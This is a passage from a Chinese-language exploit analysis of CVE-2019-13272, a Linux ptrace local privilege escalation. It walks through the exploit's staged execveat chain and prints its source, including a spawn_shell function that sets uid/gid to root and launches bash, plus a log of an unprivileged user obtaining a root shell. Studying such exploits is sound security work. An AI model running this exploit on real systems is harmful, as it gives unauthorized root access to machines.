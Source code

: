函数 force_exec_and_wait 的作用是使用 ptrace 控制 tracee 执行 execveat 函数替换进程的镜像, 这里它控制 task B 执行了 task A 的进程（即 exploit 的可执行程序）然后参数为 stage2, 这实际上就是让 task B 执行了 middle_stage2 函数

```c
167 int main(int argc, char **argv) {
168   if (strcmp(argv[0], "stage2") == 0)
169     return middle_stage2();
170   if (strcmp(argv[0], "stage3") == 0)
171     return spawn_shell();
```

而 middle_stage2 函数同样调用了 force_exec_and_wait , 这将使 task B 利用 ptrace 控制 task C 执行 execveat 函数，将 task C 的镜像也替换为 exploit 的 binary, 且参数是 stage3


```c
153 static int middle_stage2(void) {
154   /* our child is hanging in signal delivery from execve()'s SIGTRAP */
155   pid_t child = SAFE(waitpid(-1, &dummy_status, 0));
156   force_exec_and_wait(child, 42, "stage3");
157   return 0;
158 }
```

当 exploit binary 以参数 stage3 运行时，实际运行的是  spawn_shell 函数, 所以 task C 最后阶段运行的是 spawn_shell


```c
160 static int spawn_shell(void) {
161   SAFE(setresgid(0, 0, 0));
162   SAFE(setresuid(0, 0, 0));
163   execlp("bash", "bash", NULL);
164   err(1, "execlp");
165 }

```

在 spawn_shell 函数里， 它首先使用 setresgid/setresuid 将本进程的 real uid/effective uid/save uid 都变成 root, 由于 task C 刚刚已经执行了 suid binary 将自身的 euid 变成了 root, 所以这里的 setresuid/setresgid 可以成功执行，到此为止， task C 就变成了一个完全的 root 进程， 最后再执行 execlp 启动一个 shell, 即得到了一个完整 root 权限的 shell


### c.复现步骤

```shell
root@ubuntu:/tmp/EXP-CVE-2019-13272# sh make.sh 
$ id
uid=1001(test) gid=1001(test) groups=1001(test) context=system_u:system_r:kernel_t:s0
$ /tmp/exp	
executing passwd
attached to midpid
root@ubuntu:/tmp/EXP-CVE-2019-13272# id
uid=0(root) gid=0(root) groups=0(root),1001(test) context=system_u:system_r:kernel_t:s0
```

### d.利用原理精准概括

